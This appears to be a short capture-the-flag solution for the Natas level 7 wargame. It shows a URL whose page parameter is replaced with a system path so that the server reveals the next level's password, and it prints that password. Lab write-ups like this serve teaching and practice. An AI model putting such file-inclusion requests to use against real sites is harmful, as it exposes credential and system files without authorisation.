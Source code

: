 # Solution

`<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->`

This is given in the page source page.

The url of the page is:
`http://natas7.natas.labs.overthewire.org/index.php?page=about`

let's update the url to:
`http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

There we go, we got the password: `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`
